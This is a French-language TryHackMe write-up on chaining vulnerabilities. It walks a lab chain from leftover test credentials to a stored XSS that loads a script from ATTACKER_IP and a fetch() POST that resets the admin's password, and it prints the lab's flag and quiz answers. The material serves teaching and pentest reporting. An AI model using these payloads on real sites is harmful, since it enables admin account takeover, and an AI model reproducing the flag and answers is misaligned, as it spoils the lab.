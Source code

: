 # TryHackMe — Chaining Vulnerabilities Writeup

## Task 1 — Introduction

La **vulnérabilité chaining** désigne le fait qu’un ou plusieurs bugs « faibles » pris isolément peuvent devenir critiques lorsqu’ils sont combinés. Les attaquants pensent ainsi de manière cumulative : plusieurs failles de faible ou moyenne gravité peuvent être enchaînées pour atteindre un objectif majeur (ex. contournement d’authentification puis exécution de code).  

Cette room montre comment adopter une vision holistique de l’application — repérer des petits points d’appui, comprendre quelles failles se complètent, et construire une chaîne d’attaque du premier accès jusqu’à la compromission complète.

**Objectifs clés :**
- Penser comme un attaquant et considérer les faibles findings comme des escalons.  
- Reconnaître les chaînes courantes de vulnérabilités.  
- Identifier les frontières faibles entre composants.  
- Suivre une chaîne complète menant d’un accès initial à une exécution distante de code.

---

## Task 2 — Chaining Vulnerabilities (Résumé)

**Qu’est-ce que le vulnerability chaining ?**  
Le vulnerability chaining consiste à combiner deux vulnérabilités (ou plus) qui, prises isolément, sont peu dangereuses, mais qui, une fois enchaînées, permettent d’obtenir un impact majeur (ex : accès, élévation de privilèges, exfiltration).

**Exemples & logique :**
- Une **Self-XSS** seule est limitée. Associée à l’absence de **CSRF**, on peut forcer un admin authentifié à sauvegarder le payload et ainsi obtenir XSS sur sa session — passage de « faible » à « critique ».  
- **Capital One (2019)** : SSRF → accès metadata AWS → récupération d’identifiants → accès S3. Chaine complète = breach.  
- Un **SQLi** protégé par login peut devenir exploitable si l’énumération d’utilisateurs + bruteforce de mots de passe sont possibles.

**Pourquoi c’est important :**  
- Les correctifs isolés (patch-par-patch) peuvent laisser l’architecture vulnérable si on ne considère pas les interactions entre failles.  
- La défense doit être **holistique** : penser en scénarios d’attaque, pas seulement en vulnérabilités isolées.

---

## Task 3 — Methodology: Think Like an Attacker

Processus répétable pour construire des chaînes d’attaque :

1. **Parcourir l’application comme un utilisateur normal** — comprendre flux, rôles, pages sensibles.  
2. **Enumérer et lister les faiblesses** — noter tout (XSS, CSRF, IDOR, erreurs verbeuses, uploads permissifs).  
3. **Analyser ce que chaque finding permet isolément** — quel est le potentiel de l’issue si rien d’autre n’est cassé ?  
4. **Définir l’objectif d’un attaquant** — vol de données, admin takeover, RCE, persistence.  
5. **Assembler une chaîne logique** — relier les failles en un chemin exploitable (ex. enum → brute force → login → stored XSS → cookie theft → admin).  
6. **Tester et valider chaque maillon** — exécuter la chaîne pas à pas, corriger la méthode si un maillon échoue.  
7. **Rédiger le rapport en racontant la chaîne** — expliquer l’enchaînement et l’impact global, pas seulement les bugs isolés.

> Astuce : documente commandes, URLs, réponses serveur et captures d’écran pour prouver chaque étape.

---

## Task 4 — Guided Chain (Walkthrough résumé)

Ce task décrit une chaîne d'attaque complète construite à partir de failles de faible/moyenne gravité.

**Étapes clés :**

1. **Developer test credentials**  
   - Compte laissé par le dev : `testuser:password123`. Connexion initiale avec droits basiques.

2. **Stored XSS dans le profil utilisateur**  
   - Le champ *display name* n’est pas assaini : un payload `<script>...</script>` s’exécute quand le profil est consulté.

3. **CSRF via XSS — changer les identifiants admin**  
   - L’application n’a pas de tokens CSRF. En injectant `<script src="http://ATTACKER_IP:8000/script.js"></script>` (servi par un simple `python3 -m http.server 8000`), l’admin qui visite le profil charge et exécute le script de l’attaquant.  
   - Le script envoie une requête POST same-origin pour modifier l’email et le mot de passe de l’admin (`fetch('/update_email.php', { method: 'POST', credentials: 'include', body: 'email=pwnedadmin@evil.local&password=pwnedadmin' })`).

4. **Login en tant qu’admin**  
   - Connexion avec `admin:pwnedadmin` et accès complet aux fonctionnalités d’administration.

**Pourquoi la chaîne a fonctionné :**  
- Comptes de test actifs, input non assaini, absence de protection CSRF et confiance excessive dans l’authentification.

**Questions / Réponses :**

- **Q : What is the flag in the admin panel?**  
  **A :** `THM{57648b8e-3382-47bb-abbc-f125e128f8ab}`

- **Q : What vulnerability enabled the attacker to force a change in the admin user's password?**  
  **A :** `Cross-site Scripting`

---

## Task 5 — Alternate Paths

Les chaînes d’exploitation ne suivent pas toujours une ligne droite. Si la voie principale bloque (ex. CSRF protégé), un attaquant créatif cherche des **pivots** alternatifs :  
- voler un cookie via XSS,  
- forcer une requête GET qui fuit des données,  
- profiler le navigateur / plugins de l’admin,  
- utiliser une autre faille découverte (SQLi, brute force, IDOR).

**Conseil pratique :** cartographie plusieurs chemins (chemin principal + fallback) et teste chaque maillon avant d’abandonner.  

**Red Team vs Bug Bounty** :  
- **Red Team** : viser l’impact réel (pivot, latéral move, persistance) en restant discret.  
- **Bug Bounty** : démontrer clairement le risque (preuve reproductible), souvent sans aller jusqu’à l’exploitation complète.

---

## Conclusion

This walkthrough shows how seemingly low-risk issues can combine into a full compromise. A default password, a stored XSS and a missing CSRF token may each look minor alone, but chained together they let an attacker move from a low-privileged account to full admin control.  

The main lesson is to think holistically: vulnerability chaining is about context, observation and creativity — spotting what each finding *enables* next. In professional testing, reports should highlight these chains (not just individual bugs) so defenders can fix the root causes and truly reduce risk.  

**Next steps:** apply this mindset in other rooms — map multiple attack paths, test fallbacks, and document the full chain (commands, server responses, screenshots) to produce high-quality, actionable reports.
